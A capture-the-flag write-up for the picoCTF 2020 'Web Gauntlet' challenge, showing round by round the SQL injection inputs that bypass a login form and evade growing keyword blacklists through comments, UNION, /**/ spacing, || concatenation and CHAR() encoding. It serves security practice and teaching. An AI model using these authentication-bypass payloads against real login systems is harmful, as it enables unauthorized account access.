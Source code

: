 ```yaml
---
layout: post
title: picoCTF 2020 Mini-Competition - Web Gauntlet SQL Injection
---
```


In this challenge, we are linked to a login form we are meant to bypass with SQL injection. At each level the filter changes, so we have to update your injection as necessary.
 
## Round 1 - filter: or

Use basic injection and comment out the rest of the line.

```sql
input: admin'--
SELECT * FROM users WHERE username='admin'--' AND password='a'
```

## Round 2 - filter: or and like = --

Without `--`, check for other ways to comment. We can also use UNION to get our specific user.

```sql
input: admin'/*
SELECT * FROM users WHERE username='admin'/*' AND password='a'

input: ' union select * from users where username in("admin")/*
SELECT * FROM users WHERE username='' union select * from users where username in("admin")/* AND password='a'
```

## Round 3 - filter: or and = like > < --

The first injection from the previous round still works here, but let's try to get the second to work too. Spaces are now blocked, but we can use `/**/` comments for the same effect. I tried %20 to replace all the spaces, but it was not effective.

```sql
input: admin'/*
SELECT * FROM users WHERE username='admin'/*' AND password='a'

input: '/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*
SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*' AND password='a'
```

## Round 4 - filter: or and = like > < -- admin

In SQLITE, `||` is a concatenation operator. The simple solution is to simply split up "admin" in a way to bypass the filter. A more complicated solution could include encoding encode "admin" in ASCII number code and using the SQL `CHAR()` function to decode it.

```sql
input: adm'||'in'/*
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'

input: '/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*
SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*' AND password='a'
```

## Round 5 - filter: or and = like > < -- union admin

Splitting up "admin" still works as only UNION is additionally blacklisted.

```sql
input: adm'||'in'/*
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'
```

